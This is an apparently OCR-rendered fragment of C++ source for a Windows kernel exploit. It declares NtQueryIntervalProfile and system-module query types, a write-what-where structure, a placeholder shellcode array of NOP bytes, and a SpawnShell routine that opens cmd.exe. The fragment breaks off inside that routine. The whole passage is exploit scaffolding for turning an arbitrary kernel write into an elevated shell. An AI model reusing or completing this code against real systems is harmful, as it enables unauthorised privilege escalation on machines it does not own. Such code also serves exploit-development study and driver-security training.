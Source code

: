 ```cpp
	ProfileTotalCycles = 19,
	ProfileIcacheIssues = 20,
	ProfileDcacheAccesses = 21,
	ProfileMemoryBarrierCycles = 22,
	ProfileLoadLinkedIssues = 23,
	ProfileMaximum = 24
};

typedef NTSTATUS (*_NtQueryIntervalProfile)(
	IN _KPROFILE_SOURCE      ProfileSource,
	OUT PULONG              Interval);

typedef struct SYSTEM_MODULE {
	ULONG                Reserved1;
	ULONG                Reserved2;
#ifdef _WIN64
	ULONG				Reserved3;
#endif
	PVOID                ImageBaseAddress;
	ULONG                ImageSize;
	ULONG                Flags;
	WORD                 Id;
	WORD                 Rank;
	WORD                 w018;
	WORD                 NameOffset;
	CHAR                 Name[MAXIMUM_FILENAME_LENGTH];
}SYSTEM_MODULE, * PSYSTEM_MODULE;

typedef struct SYSTEM_MODULE_INFORMATION {
	ULONG                ModulesCount;
	SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS {
	SystemModuleInformation = 11
} SYSTEM_INFORMATION_CLASS;

typedef NTSTATUS(*_NtQuerySystemInformation)(
	SYSTEM_INFORMATION_CLASS SystemInformationClass,
	PVOID                    SystemInformation,
	ULONG                    SystemInformationLength,
	PULONG                   ReturnLength
	);

typedef struct _WRITE_WHAT_WHERE {
	void* What;
	void* Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;


char pShellcode[] = {
	0x90, 0x90
};


void SpawnShell() {

	PROCESS_INFORMATION Pi = { 0 };
	STARTUPINFOW Si = { 0 };
	Si.cb = sizeof(STARTUPINFOW);

	CreateProcess(L"C:\\Windows\\System32\\cmd.exe", nullptr, nullptr, nullptr, false, CREATE_NEW_CONSOLE, nullptr, nullptr, &Si, &Pi);
```
